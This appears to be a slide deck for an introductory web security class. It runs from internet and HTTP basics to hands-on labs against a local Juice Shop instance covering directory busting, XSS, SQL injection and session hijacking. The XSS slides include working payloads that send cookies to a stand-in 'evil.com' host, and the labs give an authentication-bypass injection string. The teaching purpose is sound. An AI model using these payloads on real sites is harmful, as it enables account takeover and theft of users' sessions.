

Website Security
ARPANET
- DoD ARPA
- Advanced Research Projects Agency
- Funded the first internet: ARPANET
- 1969
- Ran over telephone cables

First Message Sent
- Connected computers from Stanford and UCLA
- The First message sent was "LO"
- Stanford sent "LOGIN"
- System crashed after "LO"
Modems
- Computers expect a steam of 1s and 0s
- Telephone wires sent an electrical signal representing voice
- Modems turn non-binary signal into a binary signal
Remember This?
Dial-Up Sound
- Sound produced during "the handshake"
- Two computers are sending signals
- Screeching is the sound of Dial-up modem calling ISP
- After connection, Dial-up modem mutes speakers
- Otherwise it would just keep making that sound :)
Computers Talking
- We connect to ISP computer
- Which connects us to another computer
- The internet is just computers talking
Modern Internet
- No longer telephone wires
- Runs over Coax and Fiber cables
- Coax is slower and older
- Fiber is newer and faster
| Dial-up | 56 Kbps |
| Coax | 1 Gbps |
| Fiber Optic | 10-50+ Gbps |
Networks
Networks
- Computers are grouped into pods called networks
- Computers connected via ethernet form a network
- Home networks are usually linked via a router

IP Addresses
- Every device on a network needs an address
- Just like houses have street addresses
- Computers need addresses so data knows where to go
- These addresses are called IP addresses
Example IP Address
- 192.168.1.42
- Four numbers separated by dots
- Each device gets a unique address on the network
- Without an address, computers wouldn't know where to send information
Note: This is IPv4. IPv6 is the same idea (an address), but more than 4 numbers
Packets
- Data sent is contained inside of packets
- Packets contain the 1s and 0s of the message
- Packets also contain a "header"
- The header holds the IP address
Packet structure
[ HEADER ]
Source IP: 192.168.1.2
Destination IP: 192.168.1.1
[ DATA ]
"Hello world"
This header is not complete. We will add more later
What happens to a packet?
1. Computer A creates a packet
2. It includes a destination IP (Computer C)
3. The router receives the packet
4. The router reads the header
5. The router forwards it to Computer C
Computer C
- Lets assume:
- Computer C has Facebook open
- Computer C also has an online video game playing
- Who does the packet belong to?
- Facebook or the Video Game
Ports
- Computers don't accept any ole Packet that shows up
- Computers expose "services" over ports
- Computers usually carry 65535 ports
- Services "claim" a port number
Computer C
- Lets assume:
- Computer C has Facebook open
- Computer C also has an online video game playing
- Who does the packet belong to?
- Facebook or the Video Game
Answer: Packet Header contains the port number
Packet structure
[ HEADER ]
Source IP: 192.168.1.2
Destination IP: 192.168.1.1
Source Port: 5565
Destination Port: 4444
[ DATA ]
"New Facebook Message: Call Grandma"
What happens to a packet?
1. Computer A creates a packet
2. It includes a destination IP (Computer C)
3. The router receives the packet
4. The router reads the header
5. The router forwards it to Computer C
6. Computer C reads the port number
7. Packet is passed to Facebook
Local Networks vs Internet
- Local Area Network (LAN)
- This is what we have seen thus far
- Internet is exactly the same
Public IP
- ISP's don't assign an IP to every computer in your house
- They assign an IP to just the router/modem
- This is the networks Public IP
- Facebook has a router, just like you!
- To connect to facebook, we connect to their network
- We just need their public IP
Hands-on: Finding your network address
On Linux
$ ip a
On MacOS
$ ifconfig | grep inet
- Shows network interfaces
- Look for inet
Hands-on: Finding CCTs Public IP
$ curl ifconfig.me
Websites
Websites
- The internet is just computers talking to each other
- Websites are no different
- Special kind of Packet: HTTP and HTTPS
HTTP
- HyperText Transfer Protocol
- It is a set of rules for how computers ask for and send files
- Your browser understands HTTP
- Web servers understand HTTP
A Conversation
- HTTP is a back-and-forth between two computers
- Your computer: "Can I have that file?"
- The server: "Sure, here it is"
- Or: "Sorry, I can't find that"
HTTP Methods
- HTTP requests come in different types called "methods"
- Each method describes an action
- The most common are GET and POST
GET
- GET just means: "give me that file"
- When you type a URL into your browser, it sends a GET request
- The server finds the file and sends it back
- Thats it GET gets things
What does a GET request look like?
GET /index.html HTTP/1.1
Host: facebook.com
- "GET" — the method
- "/index.html" — the file we want
- "Host" — which server to ask
[ HEADER ]
Source IP: 192.168.1.42
Destination IP: ?
Source Port: 58421
Destination Port: 80
[ HTTP ]
GET /index.html HTTP/1.1
Host: facebook.com
- HTTP is extra header information
- Browser adds the HTTP part
Hold on...
[ HEADER ]
Source IP: 192.168.1.42
Destination IP: ?
Source Port: 58421
Destination Port: 80
[ HTTP ]
GET /index.html HTTP/1.1
Host: facebook.com
How does our computer know where to send this?
What is Facebooks Public IP?
- To send any kind of packet to Facebook, we need their Public IP
DNS
- Domain Name System
- Trusted 3rd Party that knows Facebooks Public IP
- Websites have to pay these 3rd Parties
- 3rd Party will then "resolve" Domain Name -> IP Address
Example
- If we want to communicate with Facebook:
- We first ask a trusted DNS provider
- Do you know facebook.com?
- The DNS will respond with Facebooks Public IP
- Computer REPLACES facebook.com with IP address
- Router can now forward packet to IP address
- We first ask a trusted DNS provider
Facebook Responds
HTTP/1.1 200 OK
<html>
<body>New Message: Call Grandma</body>
</html>
- 200 means "everything is fine, here's your file"
- 404 means "I couldn't find that file"
POST
- POST means: "here is some data, do something with it"
- When you submit a login form, your browser sends a POST
- When you post a tweet, thats a POST
- Unlike GET, POST carries data in the body of the request
What does a POST request look like?
POST /login HTTP/1.1
Host: facebook.com
email=alice@example.com
password=hunter2
- "POST" — the method
- "/login" — where to send it
- The blank line separates the headers from the body
- The body carries your actual data
GET vs POST
| GET | POST | |
| Purpose | Retrieve something | Send something |
| Data | Sent to us | Sent to them |
| Example | Loading a page | Submitting a form |
There are other methods too — PUT, DELETE, PATCH — but GET and POST cover 90% of what you will see
HTTPS
- HyperText Transfer Protocol Secure
- The same as HTTP — but the data is encrypted
- Nobody in the middle can read it
HTTP vs HTTPS
❌ HTTP — Plain Text
POST /login HTTP/1.1
Host: facebook.com
email=alice@example.com
password=hunter2
Anyone between you and Facebook can read this
HTTP vs HTTPS
✅ HTTPS — Encrypted
POST /login HTTPS/1.1
Host: facebook.com
U2FsdGVkX1+k9Xz3mQpL8v
Yw7TnR2cHs0dKjNqBe4iAo
Fp6WtEGlZm1rCuVhXyDsIb
Mn3oPQaKwJgUeRfT5vYcHd
Looks like gibberish to anyone intercepting it
Paths
Paths
- Remember the GET request?
GET /index.html HTTP/1.1
Host: facebook.com
- The /index.html part is called the path
- It tells the server which file you want
- Web servers are just computers serving files from a folder
Paths
/website_folder/
├── index.html
├── about.html
├── images/
│ └── logo.png
└── admin/
└── dashboard.html
- GET /about.html → sends back about.html
- GET /admin/dashboard.html → sends back dashboard.html
wget
- Your browser does this automatically
- A tool called wget lets you GET files from the command line
Lab: wget
$ wget http://https://not-helpful.github.io/blog/index.html
# View what you got
$ cat index.html
- wget sends a GET request and saves the response to disk
- Try downloading other files you find at different paths
- What happens when you request a file that doesn't exist?
The Problem with Paths
- Developers sometimes forget files are publicly accessible
- A backup file left on the server:
/backup.zip
/config.old
/admin/
/.git/
- If you know the path, you can GET it
- The server doesn't ask why you want it
Directory Busting
- What if we just... guess paths?
- Tools like dirb and gobuster automate this
- They try thousands of common paths and report what responds
/admin → 200 OK ← found it
/login → 200 OK ← found it
/backup → 404 ← not there
/config → 403 ← exists but forbidden
Starting Juice Shop
Lab: Dirbusting Juice Shop
- Juice Shop is running at http://localhost:3000
- We'll use dirb to discover hidden paths
$ dirb http://localhost:3000
- Watch the output — note every path that returns 200
- Try visiting those paths in your browser
- Can you find the score board? It's intentionally hidden from the nav
- Hint: look for paths that contain the word "score"
HTML, CSS, and JavaScript
- These define how websites look and behave
- Browsers interpret them directly
- We will look at each one through repetition
HTML
- HTML defines the text of a website
- Text is marked with "Tags"
Basic Tags
- h1, h2, h3, ..., h6 define "headers"
<h1> Header 1 </h1>
<h2> Header 2 </h2>
<h3> Header 3 </h3>
<h4> Header 4 </h4>
<h5> Header 5 </h5>
<h6> Header 6 </h6>
Header 1
Header 2
Header 3
Header 4
Header 5
Header 6
More Tags
- These slides are rendered in your browser
- They are made from HTML!
<h2>More Tags</h2>
<ul>
<li>These slides are rendered in your browser</li>
<li>They are made from HTML!</li>
</ul>
What if we change ul to ol?
<h2>More Tags</h2>
<ol>
<li>These slides are rendered in your browser</li>
<li>They are made from HTML!</li>
</ol>
More Tags
- These slides are rendered in your browser
- They are made from HTML!
Two Resources
Mini Lab
- On the next slide, you can try HTML for yourself
- Go find 2 tags from the resource to try
HTML
Output
CSS
Output
CSS
p {
background: yellow;
padding: 10px;
}
- This CSS code will change every p tag globally
Rendered CSS
This paragraph is styled
Are HTML and CSS Boring?
- HTML and CSS put text on the screen and color it
- They do a little more than that, but not much...
- The Question:
How does Netflix work?
JavaScript
JavaScript
What is JavaScript?
- HTML puts text on the page
- CSS styles it
- JavaScript makes it do things
- It runs inside your browser
- Every website you use is powered by it
Javascript in HTML
- We can add put javascript inside of HTML with the <script> tag
JavaScript in HTML
<h1>My Page</h1>
<script>
alert("Hello from JavaScript!")
</script>
- The browser reads the HTML top to bottom
- When it hits a <script> tag, it runs the JavaScript inside
- This is how every website adds behavior to a page
The Browser Console
- Your browser has a built-in JavaScript interpreter
- Open it with: F12 → Console tab
- You can type JavaScript directly in and run it
Lab: JavaScript in the Console
- Open Juice Shop: http://localhost:3000
- Press F12 and click the Console tab
- Try each of these one at a time:
// Print something
console.log("hello")
// Do math
2 + 2
// Pop up an alert
alert("I am in your browser")
// Read the page title
document.title
// Change the page title
document.title = "Hacked"
// Change a heading on the page
document.querySelector("h1").innerText = "Juice Hacked"
Why Does That Matter?
- You just rewrote a live webpage from your own browser
- But that only affected your copy of the page
- What if you could make someone else's browser run your JavaScript?
Cross-Site Scripting (XSS)
Website Input
- Many websites take something you type and put it back on the page
- Search bars, comment sections, reviews, profile names
- Normally this is just text — harmless
You searched for: apple juice
- But what if the site doesn't treat your input as text?
- What if it treats it as HTML?
Input Becoming Code
- A safe site escapes your input before rendering it
You typed: <script>alert("hi")</script>
Safe site: displays it as plain text — harmless
Unsafe site: injects it into the page as real HTML
- On an unsafe site, the browser sees a real script tag
- And runs it
Three Kinds of XSS
- Reflected — payload lives in a URL, runs immediately when the link is opened
- Stored — payload is saved to the database, runs for every visitor who loads that page
- DOM-based — the page's own JavaScript takes your input and writes it into the page without sanitizing it first
Stored XSS is the most dangerous
Reflected XSS — How It Works
- Attacker crafts a malicious URL:
https://bank.com/search?q=<script>alert("hacked")</script>
- Attacker sends this link to a victim
- Victim clicks the link
- The webpage reflects the search term from the URL onto the page
- The script runs in the victim's browser
Try It: Reflected XSS via URL
Edit the ?q= parameter below and press Go
watch your input reflect directly onto the page.
Stored XSS — How It Works
- Attacker posts a comment on a website:
Great product! <script>
document.location =
'https://evil.com/steal?c=' + document.cookie
</script>
- The site saves this to the database without sanitizing it
- Every user who loads that page runs the script
DOM-based XSS — How It Works
- Some sites use JavaScript to write your input directly into the page
// Vulnerable JavaScript on the page:
let query = location.search;
document.getElementById("results").innerHTML =
"You searched for: " + query;
- innerHTML parses HTML — it doesn't treat the input as plain text
Lab: DOM XSS on Juice Shop
- Go to http://localhost:3000
- Find the search bar in the top navigation
- Paste this in and press Enter:
<iframe src="javascript:alert(`xss`)">
- An alert box pops up saying xss
- Juice Shop wrote your input into the DOM using innerHTML
- The browser treated your iframe tag as real HTML and ran its JavaScript
- You just executed arbitrary code inside Juice Shop
What Could an Attacker Do?
- Popping an alert proves the vulnerability — but the real payloads are worse
<!-- Steal the victim's session cookie -->
<iframe src="javascript:
fetch('https://evil.com/steal?c=' + document.cookie)
">
<!-- Redirect to a fake login page -->
<iframe src="javascript:
document.location = 'https://evil.com/fake-login'
">
<!-- Silently make requests as the victim -->
<iframe src="javascript:
fetch('/api/transfer', {method:'POST', body:'amount=1000&to=attacker'})
">
SQL Injection
Databases
- Almost every website stores data in a database
- Your username, password, posts, orders — all in there
-- "Give me everything about the user with this email"
SELECT * FROM users WHERE email = 'alice@example.com'
Data
- Data is stored as rows and columns
- Row: Data Entry
- Column: Element of that Entry
email name age role
alice@example.com Alice 21 student
bob@example.com Bob 24 TA
carol@example.com Carol 19 student
SQL
- SQL is a "Query" language
- Sentences in SQL "Query" the database for information
-- "Give me everything about the user with this email"
SELECT * FROM users WHERE email = 'alice@example.com'
Logging in
- Facebook needs to check your username and password
SELECT * FROM users
WHERE email = 'alice@example.com'
AND password = 'hunter2'
- If the query returns a row → logged in
- If no rows returned → access denied
Logging in
- Facebook takes YOUR input, and checks the Database
- Normal email:
alice@example.com - Malicious email:
alice' OR 1=1--
-- What the server builds:
SELECT * FROM users
WHERE email = 'alice' OR 1=1--'
AND password = 'anything'
- The ' closes the email string early
- OR 1=1 is always true — the WHERE clause always passes
- -- is a SQL comment — it deletes the rest of the query
Type in the email field and watch the SQL query change:
Lab: SQL Injection on Juice Shop
- Go to http://localhost:3000/#/login
- In the email field, type exactly:
admin' OR 1=1--
- Type anything you want in the password field — it won't be checked
- Click Log In
- You are now logged in as the admin account
SQL Injection vs XSS — The Pattern
- Both attacks follow the same root cause:
- XSS — user input gets treated as HTML/JavaScript
- SQL Injection — user input gets treated as SQL
- Fatal Flaw — Assuming user input wont be code
Cookies
Stateless Websites
- HTTP has no memory
- Stateful websites have states
- STATE: Logged in
- HTTP is Stateless
- So how does Facebook know you're still logged in when you click to the next page?
Cookies
- When you log in, the server creates a session and hands you a token
- That token is stored in your browser as a cookie
- Your browser attaches that cookie to every request automatically
GET /feed HTTP/1.1
Host: facebook.com
Cookie: session=abc123xyz
Cookies in the Browser
- Open F12 → Application → Cookies
- You can see every cookie a site has stored in your browser
Name: token
Value: eyJhbGciOiJSUzI1NiIsInR5...
HttpOnly: false
Secure: false
- HttpOnly: false means JavaScript can read this cookie
- Secure: false means it can be sent over plain HTTP, not just HTTPS
Session Hijacking
- If someone gets your cookie value...
- They don't need your password
- Site logs them in as you "for free"
GET /account/settings HTTP/1.1
Host: juice-shop.com
Cookie: token=eyJhbGciOiJSUzI1NiIsInR5...
- The server sees a valid token and hands over the account
Lab: Reading Cookies via the Console
- Go to http://localhost:3000 and log in as any user
- Open F12 → Console and type:
document.cookie
- You'll see the raw cookie string your browser is sending with every request
Lab: Hijack the Admin Session
- We'll combine what we've learned — use SQL injection to get admin, then steal the token
- Log into Juice Shop using the SQL injection payload from earlier
- Open F12 → Application → Local Storage → localhost:3000
- Find and copy the token value
- Now open a private/incognito window and go to http://localhost:3000
- Open the console there and run:
localStorage.setItem('token', 'PASTE_TOKEN_HERE')
Teaching Web Security
- The greatest tool - CTFs
- ctftime
- picoctf
- Portswigger challenges
Summary
- Dirbusting — find hidden paths the site doesn't link to
- XSS — inject JavaScript into pages to run code in other users' browsers
- Cookie Theft — steal session tokens to impersonate users without a password
- SQL Injection — inject SQL into input fields to bypass auth or dump databases